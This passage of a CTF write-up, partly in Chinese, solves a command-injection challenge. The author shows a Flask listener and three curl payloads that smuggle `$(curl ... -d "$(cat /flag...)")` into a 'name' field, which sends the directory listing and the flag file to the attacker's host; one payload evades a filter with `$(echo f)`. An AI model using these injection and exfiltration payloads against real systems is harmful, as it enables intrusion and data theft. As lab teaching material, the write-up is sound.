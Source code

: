 ![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/68686376-29a6-4bbc-bca0-3c63da797b1f)

發現 `$()` 沒檔，測一下

![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/525b06b2-d309-47a2-976d-70058bd30fb4)

過了

#### exploit
```python
#!/usr/bin/env python3

from flask import Flask,request,redirect,Response


app = Flask(__name__)

@app.route('/',methods=['GET', 'POST'])
def root():
    print(request.stream.read().decode())
    return "com"

@app.route('/<path:data>',methods=['GET'])
def run(data):
    print(data)
    return "com"

if __name__ == "__main__":
    app.run(host="::", port=80)
```

#### payload
```bash
curl http://10.105.0.21:21520/ -d 'name=example.$(curl 10.105.2.22 -d "$(ls /)")'

curl http://10.105.0.21:21520/ -d 'name=example.$(curl 10.105.2.22 -d "$(cat /flag_SWeUMks9hGYFciax)")'

curl http://10.105.0.21:21520/ -d 'name=example.$(curl 10.105.2.22 -d "$(cat /$(echo f)lag_SWeUMks9hGYFciax)")'
```

#### Flag
![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/481aad11-e682-4ccc-8333-a8f3f62d337e)

`AIS3{jUsT_3@$y_cOMmAnD_INJEc7ION}`

### Internal
![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/f5f445de-3668-4e00-b166-197c29c0f198)

#### 解題
![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/4f4b8f77-aeb2-4264-86d7-7371e96bd6e8)
